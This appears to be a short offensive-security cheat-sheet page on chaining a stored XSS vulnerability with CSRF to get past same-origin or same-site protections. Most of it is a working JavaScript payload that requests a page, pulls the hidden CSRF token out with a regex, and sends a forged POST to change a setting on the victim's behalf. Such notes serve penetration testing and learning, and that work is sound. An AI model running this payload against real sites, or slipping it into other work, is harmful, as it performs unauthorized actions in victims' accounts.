 # XSS & CSRF Chaining
***
#### Even when we manage to bypass CSRF protection, we may not be able to create cross-site requests due to some sort of `same origin / same site` restriction.
#### Still we may try to bypass it through vulnerability chaining to execute CSRF

### Example:
#### A web application which has a stored XSS vulnerability and its server has same origin/same site protections implemented as anti-CSRF measures.
#### A request through XSS will bypass any same origin/same site protection since it will derive from the same domain

#### XSS payload to get the CSRF and then execute the CSRF attack
```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>
```